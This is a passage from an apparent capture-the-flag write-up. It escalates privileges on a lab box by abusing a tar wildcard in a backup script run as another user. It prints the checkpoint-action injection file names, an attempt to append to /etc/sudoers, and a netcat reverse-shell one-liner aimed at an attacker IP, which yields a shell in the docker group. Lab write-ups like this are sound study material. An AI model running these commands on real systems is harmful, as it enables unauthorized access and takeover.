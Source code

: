 uh? we run backups as michael? what is michael backing up?

```
jake@the-marketplace:~$ id michael
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```
That bad boi michael is in docker group

```
jake@the-marketplace:~$ cd /opt/backups
jake@the-marketplace:/opt/backups$ cat backup.sh
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

I just googled that last line with "privilege escalation"

Its called [wildcard injection](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/) as it seems

Tried the artcle's demo method

```
jake@the-marketplace:/opt/backups$ echo 'echo "jake ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > demo.sh
jake@the-marketplace:/opt/backups$ touch -- --checkpoint=1
jake@the-marketplace:/opt/backups$ touch -- "--checkpoint-action=exec=sh demo.sh"
jake@the-marketplace:/opt/backups$ chmod 777 backup.tar demo.sh
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh
Backing up files...
tar: backup.tar: file is the archive; not dumped
demo.sh: 1: demo.sh: cannot create /etc/sudoers: Permission denied
```
But we can't add jake to sudoers (michael cannot do that)

I found another method...as demo.sh is executed, we can just make it a reverse shell

```
jake@the-marketplace:/opt/backups$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.226.203 2311 >/tmp/f" > shell.sh
jake@the-marketplace:/opt/backups$ touch -- --checkpoint=1
jake@the-marketplace:/opt/backups$ touch -- "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/opt/backups$ chmod 777 shell.sh
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh
Backing up files...
tar: backup.tar: file is the archive; not dumped
demo.sh: 1: demo.sh: cannot create /etc/sudoers: Permission denied
rm: cannot remove '/tmp/f': No such file or directory
```
```
└──╼ $nc -lnvp 2311
listening on [any] 2311 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 60464
$ id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```
We are michael now...we have docker power
